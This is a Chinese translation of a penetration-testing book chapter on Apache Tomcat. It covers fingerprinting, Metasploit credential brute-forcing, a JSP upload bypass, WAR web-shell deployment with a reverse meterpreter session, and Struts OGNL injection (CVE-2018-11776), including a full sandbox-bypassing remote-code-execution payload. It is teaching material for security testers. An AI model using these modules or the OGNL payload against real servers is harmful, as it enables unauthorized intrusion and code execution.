# 技术平台上的渗透测试-Apache Tomcat

在上一章中，我们了解了如何在**JBoss 应用服务器**（**JBoss AS**上进行渗透测试。现在我们来看另一个技术平台，称为**ApacheTomcat**。Apache Tomcat 软件是在开放和参与式环境中开发的，并在 Apache 许可证版本 2 下发布。ApacheTomcat 是一个 Java servlet 容器，它实现了多个核心企业功能，包括 Java servlet、**Java 服务器页面**（**JSP**）、Java WebSocket 和**Java 持久化 API**（**JPA**）。许多组织都有部署在 ApacheTomcat 上的内部、基于 Java 的应用。易受攻击的 Apache Tomcat 软件是威胁参与者的金矿，因为大量的支付网关、核心银行应用和**客户关系管理**（**CRM**等平台都在 Apache Tomcat 上运行

在本章中，我们将介绍以下主题：

*   Tomcat 简介
*   ApacheTomcat 体系结构

*   文件及其目录结构

*   检测 Tomcat 安装

*   版本检测

*   在 Tomcat 上执行攻击

*   apachestruts 简介

*   OGNL 简介

*   OGNL 表达注射

# 技术要求

以下是本章的先决条件：

*   Apache Tomcat（[http://tomcat.apache.org/](http://tomcat.apache.org/) ）

*   后端数据库；建议使用 MySQL（[https://www.mysql.com/downloads/](https://www.mysql.com/downloads/) ）

*   Metasploit 框架（[https://github.com/rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework) ）

# Tomcat 简介

ApacheTomcat 软件是一个开源 web 服务器，旨在运行基于 Java 的 web 应用。Tomcat 当前版本的一些特性包括：

*   支持 JavaServlet3.1

*   JSP 2.3

*   Java 统一**表达语言**（**EL**3.0

*   JavaWebSocket 1.0

Tomcat 由许多开发人员在 Apache 程序平台的支持下开发和处理，在 Apache 认证 2.0 证书下发布，是一个开源应用。Tomcat 既可以作为一个独立的产品使用，拥有自己的内部 web 服务器，也可以与其他 web 服务器结合使用，包括 Apache 和 Microsoft**Internet Information server**（**IIS**）。

考虑到许多组织都在使用 ApacheTomcat，应该明智地考虑该平台的安全方面。在撰写本书时，Shodan 已经确定了全球超过 93000 个 Tomcat 实例（包括独立实例和 JBoss 实例中集成的实例），如以下屏幕截图所示：


Apache Tomcat 服务器中的漏洞允许威胁参与者利用服务器上运行的应用进行攻击，甚至可以超越一般应用攻击，最终访问组织的内部网络。

# ApacheTomcat 体系结构

Tomcat 可以描述为一系列不同的功能组件，它们与定义良好的规则结合在一起。下图显示了 Tomcat 的结构：


让我们试着理解上图中显示的每个组件的角色：

*   **服务器**：服务器代表整个 Catalina servlet 容器。`server.xml`文件表示 Tomcat 安装的所有特征和配置。

*   **服务**：服务是服务器内部的一个组件，其中包含共享单个容器以处理其传入请求的连接器。

*   **引擎**：引擎接收并处理来自不同连接器的信息，并返回输出。

*   **主机**：服务器使用的网络或域名。一台服务器可以有多台主机。

*   **上下文**：表示一个 web 应用。主机上可以有多个具有不同 URL 路径的 web 应用。

*   **连接器**：连接器处理客户端和服务器之间的通信。有不同类型的连接器用于处理各种通信；例如，HTTP 连接器用于处理 HTTP 流量，而 AJP 连接器用于使用 AJP 协议与 Apache 通信。

现在我们已经对 ApacheTomcat 体系结构有了基本的了解，让我们检查一下存储在 Tomcat 服务器上的文件和目录的结构。

# 文件及其目录结构

Tomcat 的文件和目录结构类似于 JBoss，我们在上一章中讨论过。在本节中，我们将快速浏览 Tomcat 的目录结构，如以下屏幕截图所示：


Tomcat 目录中的子目录可以解释如下：

*   `bin`：此目录包含初始化服务器时所需的所有脚本，例如启动和关闭脚本以及可执行文件。

*   `common`：此目录包含开发人员托管的 Catalina 和其他 web 应用可以使用的公共类。

*   `conf`：该目录由服务器 XML 文件和相关的**文档类型定义**（**DTD**组成，用于配置 Tomcat。

*   `logs`：顾名思义，该目录存储 Catalina 和应用生成的日志。

*   `server`：此目录存储 Catalina 单独使用的类。

*   `shared`：此目录存储可由所有 web 应用共享的类。

*   `webapps`：此目录包含所有 web 应用。

*   `work`：此目录表示文件和目录的临时存储。

最有趣的目录之一是`webapps`目录：


通过导航到`webapps`目录并列出内容，我们可以查看目录，如前面的屏幕截图所示：

*   `ROOT`：这是 web 应用的根目录。它包含所有 JSP 文件和 HTML 页面、客户端 JAR 文件等。

*   `docs`：此目录包含 Apache Tomcat 文档。

*   `examples`：`examples`文件夹包含 servlet、JSP 和 WebSocket 示例，以帮助开发人员进行开发。

*   `host-manager`：`host-manager`应用允许我们在 Tomcat 中创建、删除和管理虚拟主机。此目录包含此目录的代码。

*   `manager`：`manager`允许我们以**web 应用归档**（**WAR**文件的形式管理安装在 Apache Tomcat 实例上的 web 应用。

对文件和目录结构的清晰理解可以帮助我们在目标 Tomcat 服务器上执行相当有效的渗透测试

# 检测 Tomcat 安装

现在，让我们看看如何检测服务器上是否安装了 Tomcat，以及可用于进一步侦察的常见检测技术是什么。

# 通过 HTTP 响应头进行检测–X-Powered-By

检测 Apache Tomcat 安装的一种非常常见的方法是查看服务器响应中的`X-Powered-By`HTTP 头：



典型的安装将在 HTTP 响应头中提供 Apache Tomcat 版本。

# 通过 HTTP 响应头进行检测–WWW 身份验证

检测 Tomcat 的一种简单方法是请求`/manager/html`页面。一旦您发出请求，服务器将以 HTTP 代码`401 Unauthorized`响应，并带有`WWW-Authenticate`HTTP 头：


正如您在前面的屏幕截图中所看到的，这个特定的头将设置一个`Tomcat Manager Application`字符串，通过使用这个头，我们将能够检测目标服务器是否安装了 Tomcat。

# 通过 HTML 标记进行检测–标题标记

如果在打开 Tomcat 实例时看到一个空白页面，您仍然可以通过查看 HTML`<title>`标记来检测它是否是 Tomcat 页面：



与前面的屏幕截图一样，`Apache Tomcat`**字符串出现在`<title>`标记之间。**

 **# 通过 HTTP 401 检测未经授权的错误

Tomcat 安装通常使用 Tomcat Manager web 应用来管理和部署 web 应用。可通过`URL/manager/html`访问。这将生成一个 HTTP 身份验证面板：


单击弹出窗口上的 Cancel（取消）将出现 401 错误，如前面的屏幕截图所示，它确认了 Tomcat 的存在。

**Note: **This kind of disclosure of information only exists in the case of Tomcat server misconfiguration.

# 通过唯一指纹（哈希）进行检测

我们在前面的章节中看到，大多数 web 应用都可以使用其 Favicon 进行检测。可以比较不同版本的 favicon 的`md5`散列，以确定所使用的 Tomcat 版本：



以下屏幕截图显示了 OWASP favicon 数据库列表中的哈希：


我们还可以维护 favicon 数据库，以检查不同版本的 ApacheTomcat 安装。

# 通过目录和文件进行检测

安装时，ApacheTomcat 还会创建`docs`和`examples`目录，以帮助开发人员进行应用开发和部署。默认情况下，文件夹的 URI 如下所示：

*   `/docs/`
*   `/examples/`

我们也可以使用 seclist（[https://github.com/danielmiessler/SecLists](https://github.com/danielmiessler/SecLists) 枚举 Tomcat 中的敏感文件：



前面的屏幕截图显示了不同的文件和文件夹，可用于标识安装了 Tomcat 的实例。在下一节中，我们将研究如何识别 Tomcat 安装的版本号。

# 版本检测

一旦我们确认服务器正在运行 Tomcat，下一步就是建立版本信息。在本节中，我们将介绍检测现有 Tomcat 安装版本号的多种方法。

# 通过 HTTP 404 错误页面进行版本检测

默认情况下，Tomcat 的 404 错误页面公开了它正在运行的版本号，因此我们需要做的就是访问服务器上不存在的 URL，服务器应该返回错误页面，如以下屏幕截图所示：


许多管理员并不真正隐藏公开版本号的 web 服务器横幅。威胁参与者可以使用此信息从他们的武库中查找公开或零日攻击，以访问服务器。

# 通过 Release-Notes.txt 公布版本

Tomcat 还有一个`Release-Notes.txt`文件，其中包含作为该版本一部分的增强功能的详细信息，以及该版本的已知问题。该文件还将 Apache Tomcat 服务器版本号披露给威胁参与者：


发行说明的第一行包含版本信息，如前面的屏幕截图所示。

# 通过 Changelog.html 公布版本

除了`Release-Notes.txt`之外，还有一个`Changelog.html`文件在页面上公开了版本号，如图所示：


我们现在可以进入下一步，即利用 Tomcat 安装。

# 利用雄猫

在本节中，我们将了解如何利用 Tomcat 的易受攻击版本。我们将介绍各种技术，包括上传 warshell 和 JSP 上传旁路。

使用 Metasploit 上的`search`命令查找 Tomcat 将为我们提供一些可用的模块，如图所示：


我们将使用最基本的模块，该模块将强制使用 Tomcat Manager，并为我们提供凭据：

1.  要加载模块，我们可以使用以下命令：

```
use auxiliary/scanner/http/tomcat_mgr_login
```

2.  在使用模块之前，最好了解模块的工作原理。记住这一点，pentester 可以调整模块，以防有**Web 应用防火墙**（**WAF**）。加载模块后，我们可以使用`show options`命令查看需要测试人员填写的选项（如下屏幕截图所示）：


3.  通过查看选项，我们可以看到它要求 Tomcat 安装的 IP（`RHOSTS`）和端口（`RPORT`），以及用于强制执行凭据的单词列表。我们使用`run`命令执行模块，如图所示：


4.  我们将得到一条带有正确登录/密码组合的`Login Successful`消息，如图所示：


利用默认密码漏洞访问服务器是利用 Apache Tomcat 最常见的方法之一。如果攻击者使用默认密码获得了访问权限，则他们甚至不必花费大量精力查找不同的易受攻击端点。

# Apache Tomcat JSP 上载绕过漏洞

存在影响 Tomcat 7.x、8.x 和 9.x 以及 TomEE 1.x 和 7.x 的 JSP 上载绕过漏洞。该漏洞涉及使用`PUT`方法通过绕过文件名过滤器上传 JSP 文件。Metasploit 模块也可用于此攻击。让我们通过执行以下命令来使用模块：

```
use exploit/multi/http/tomcat_jsp_upload_bypass
```

以下屏幕截图显示了前面命令的输出：



设置`RHOSTS`值并使用`run`命令执行模块如下图所示：


正如您在下面的屏幕截图中所看到的，此 Metasploit 模块将首先使用 HTTP`PUT`方法上传扩展名为`.jsp`后带有`/`（正斜杠）的 JSP 文件。如果 Apache Tomcat 实例以 HTTP`201`（已创建）代码响应，则表示该文件已成功上载到服务器：



上载文件的原因是 Tomcat 服务器上存在文件上载限制漏洞（仅适用于特定版本），如果文件扩展名为 JSP，该漏洞会过滤掉文件。使用此正斜杠，我们可以绕过此限制上载基于 JSP 的恶意 web shell。在这种情况下，使用`PUT`方法将有效负载文件发送到目标服务器，如以下屏幕截图所示：



如前所述，如果上传成功，服务器会给出 HTTP`201`代码：


上传有效负载文件后，Metasploit 模块将为有效负载执行请求相同的文件名：



成功执行有效负载后，我们将得到一个通用 shell：



在利用 JSP 上传旁路后，我们没有必要总是获得一个`root`（特权）shell。在更多情况下，我们必须将我们的权限从普通用户升级到`root`。

# Tomcat WAR shell 上传（已验证）

假设我们拥有 ApacheTomcat 实例的凭据（可能通过窥探/嗅探或来自包含敏感信息的文件）。用户可以通过将打包的 WAR 文件上载到 ApacheTomcat 实例来运行 web 应用。在本节中，我们将上载 WAR 文件以获得绑定/反向 shell 连接。请注意，warshell 上传需要身份验证才能工作；否则，服务器将响应 HTTP`401`（未经授权）代码：

1.  首先，让我们请求`/manager/html`页面。服务器将请求 HTTP 身份验证：



2.  一旦验证，页面将重定向至`/manager/status`，如以下屏幕截图所示：


3.  单击 List Applications（列表应用）将列出此 Apache Tomcat 实例管理的所有已安装应用：


4.  向下滚动同一页面，我们将找到一个部署部分，在该部分中，我们可以通过 URL 部署服务器上的 WAR，也可以通过上传我们自己的 WAR 文件来部署它：


5.  我们可以从页面的 WAR 文件部署部分将 WAR 文件（`redteam.war`上传到服务器。单击 Deploy 按钮将部署我们的 WAR 文件。如果 WAR 部署成功，我们的应用将安装在 Apache Tomcat 服务器上，我们可以从列表应用选项（如前所述）查看该服务器：


6.  正如您在前面的屏幕截图中所看到的，我们的 WAR 文件已部署。现在，我们只需要从浏览器正常访问 JSP shell，并将要执行的命令作为值传递给参数（如下屏幕截图所示）：



使用 Metasploit 也可以实现相同的过程。使用 Metasploit 中的`tomcat_mgr_upload`模块，我们可以上传一个战争 shell。让我们通过在`msfconsole`中执行以下命令来使用此模块：

```
use exploit/multi/http/tomcat_mgr_upload
```

以下屏幕截图显示了前面命令的输出：


由于这是一种经过身份验证的机制，我们需要为 HTTP 身份验证提供凭据。让我们执行此模块，以便 Metasploit 可以上载 WAR 文件并在服务器上执行有效负载：


正如您在前面的屏幕截图中所看到的，该模块已成功通过服务器身份验证，并上传了 WAR 文件（`ymRRnwH.war`。上传后，模块调用打包在 WAR 文件中的 JSP 有效负载，并执行它以获得反向`meterpreter`连接：



以下是`meterpreter`在执行`tomcat_mgr_upload`模块时检查的步骤：

1.  Metasploit 模块检查凭据是否有效。
2.  如果有效，则模块从服务器响应（CSRF 令牌）获取`org.apache.catalina.filters.CSRF_NONCE`的值。
3.  然后，模块尝试通过 HTTP`POST`方法上传 WAR 有效载荷（无需验证）。

4.  如果前面的步骤失败，则模块使用提供给它的凭据上载 WAR 文件（`POST/manager/html/upload`。
5.  成功上传后，模块从服务器请求 JSP`meterpreter`文件，导致打开`meterpreter`连接（本例中为反向连接）。

**Note:**
We have uploaded and executed the `meterpreter` shell to get a reverse connection. There are some cases where a reverse connection is not possible. In these instances, we can always look for bind connections or maybe tunnel the `meterpreter` sessions via HTTP.

现在，我们知道了如何将 WAR shell 上传到 Apache Tomcat 实例，以及如何利用一些漏洞，接下来让我们进入对 Apache Tomcat 实例执行的下一级攻击。

# apachestruts 简介

ApacheStruts 是一个遵循 MVC 体系结构的免费开源框架，用于开发基于 Java 的 web 应用。它使用 JavaServletAPI。它最初是由 Craig McClanahan 创建的，在 2000 年 5 月被捐赠给阿帕奇基金会。Apache Struts 2 的第一个完整版本于 2007 年发布。

在本节中，我们将研究在 Apache Struts 中发现的一些漏洞。

# 理解 OGNL

**对象图表示语言**（**OGNL**）是一种简化`ActionContext`中存储数据可访问性的 EL。`ActionContext`是操作可能需要执行的对象的容器。OGNL 在 ApacheStruts2 中链接非常紧密，用于将表单参数作为 JavaBean 变量存储在 ValueStack 中。**ValueStack**是存储数据以处理客户端请求的存储区域

# OGNL 表达注射

当未初始化的用户输入被传递到 ValueStack 进行计算时，会发生 OGNL 表达式注入。在本节中，我们将尝试理解表达式注入查询并查看一个利用该查询的示例。

以下屏幕截图显示了使用 Struts 2 的易受 CVE-2018-11776 攻击的易受攻击 web 应用的示例：



让我们尝试通过以下步骤手动利用此 Struts 漏洞（CVE-2018-11776）：

1.  当您进入菜单栏中的 Configuration | Action Chaining（配置|动作链接）时，您会注意到以下请求被发送到服务器：


2.  然后，服务器返回以下响应：



3.  现在，我们将`actionchaining`字符串替换为其他字符串，例如`Testing123`，正如我们在下面的屏幕截图中所做的那样：



4.  当我们这样做时，服务器处理我们的`Testing123`字符串并用相同的字符串响应：


5.  为了测试表达式语言注入（如 OGNL），我们需要使用`${..}`或`%{..}`语法。OGNL 将处理`${..}`或`%{..}`中包含的任何内容。因此，对于一个简单的测试，让我们使用一个`${123*123}`或`%{123*123}`字符串：



6.  由于代码位于前面有`$`或`%`的括号中，服务器将其作为 OGNL 表达式进行处理，并以如下屏幕截图所示的结果进行响应：



现在我们已经成功地确认了前面测试用例中的漏洞，让我们了解如何在进程上执行 OGNL 注入时注入有效负载并绕过沙箱（如果有的话）。

# 通过 OGNL 注入测试远程代码执行

为了测试该漏洞，我们将使用以下有效负载：

```
${(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}
```

在分解有效负载之前，让我们了解一些关于 OGNL 的事情，这将帮助我们更好地理解有效负载：

| **操作员** | **说明** |
| `${..}`或`%{..}` | OGNL 表达式块。 |
| `(e)` | 带括号的表达式。 |
| `e.method(args)` | 方法调用的语法。 |
| `e.property` | 调用属性的语法。 |
| `e1[e2]` | 数组索引。 |
| `[e]` | 数组索引引用。 |
| `#variable` | 上下文变量引用。 |
| `@class@method(args)` | 静态方法参考。 |
| `{e1,e2,e3,..}` | 列表创建-逗号（`,`）的使用方式与分号（`;`）的使用方式相同，用于结束语句。 |
| `e1.(e2)` | 子表达式求值。 |

现在，让我们参考上表来分解前面提到的有效负载。

在 Struts 的早期版本中，`_memberAccess`对象用于控制 OGNL 可以做什么，但在以后的版本中，`_memberAccess`对象甚至在构造函数调用方面受到限制。这是因为`excludedClasses`、`excludedPackageNames`和`excludedPackageNamePatterns`黑名单拒绝访问特定的类和包。尽管`_memberAccess`对象是可访问的，但对该对象有很强的限制。

为了绕过这样的限制，在 Struts 版本 2.3.20–2.3.29 中，我们只需将`_memberAccess`对象替换为`DefaultMemberAccess`对象（一个来自`SecurityMemberAccess`类的可访问静态对象），这将允许我们在没有任何限制的情况下控制 OGNL 可以做什么。

因此，有效载荷的第一行通过将上下文从`_memberAccess`更改为`DefaultMemberAccess`来绕过对`_memberAccess`对象的限制：

```
${(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}
```

在前面的代码中，`OgnlContext`是一个类，它根据 Apache 公共 OGNL 表达式引用（[定义 OGNL 表达式的执行上下文 https://commons.apache.org/proper/commons-ognl/apidocs/org/apache/commons/ognl/OgnlContext.html](https://commons.apache.org/proper/commons-ognl/apidocs/org/apache/commons/ognl/OgnlContext.html) 。

现在上下文已从`_memberAccess`更改为`DefaultMemberAccess`，我们可以使用`setMemberAccess`方法设置`MemberAccess`。然而，为了访问该对象，我们首先需要清除黑名单（`excludedClasses`、`excludedPackageNames`和`excludedPackageNamePatterns`。我们可以通过恢复到原始上下文来清除黑名单，这可以在我们有效负载的以下突出显示行中看到：

```
${(*#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS*).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}
```

由于我们还没有上下文，我们需要检索上下文映射，这可以通过访问`ActionContext.container`**来完成。**现在可以访问此容器，因为我们已经从`struts.valueStack`**请求了上下文。**参考我们有效负载的以下突出显示行：

```
${(*#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS*).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}
```

现在我们可以访问上下文映射（参考有效负载的第一条高亮显示的行），我们现在可以清除黑名单，这样我们就可以访问没有限制的`DefaultMemberAccess`对象。我们有效载荷的第二条突出显示的线是：

```
${(*#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS*).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}
```

